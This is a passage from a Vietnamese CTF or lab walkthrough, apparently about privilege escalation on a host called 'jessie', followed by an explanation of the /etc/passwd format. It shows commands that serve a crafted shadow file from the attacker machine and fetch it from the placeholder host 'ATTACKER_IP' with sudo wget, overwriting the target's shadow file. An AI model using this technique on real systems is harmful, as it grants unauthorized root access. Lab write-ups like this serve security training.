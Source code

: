 ![shadow](image-7.png)

Vận chuyển file shadow đến máy jessie

??? success "Cách vận chuyển"
    Tại máy attacker

    ```ps1 title="Terminal"
    python3 -m http.server
    ```

    Tại máy jessie
    
    ```ps1 title="Terminal"
    sudo wget ATTACKER_IP:ATTACKER_PORT_LISTEN/shadow --output-document=shadow
    ```

### __/etc/passwd__

`/etc/passwd` là một tệp văn bản trong hệ thống Unix và các hệ thống dựa trên Unix (như Linux) được sử dụng để lưu trữ thông tin tài khoản người dùng:

- __Trong quá khứ__, nó thường chứa thông tin cơ bản về các tài khoản người dùng trên hệ thống.
- __Hiện nay__ nó thường chỉ chứa một loạt các mục thể hiện thông tin người dùng.

Cấu trúc của mỗi dòng trong tệp `/etc/passwd` bao gồm các trường cách nhau bằng dấu hai chấm (":"):

Tên người dùng (Username): Đây là tên đăng nhập duy nhất cho tài khoản người dùng.

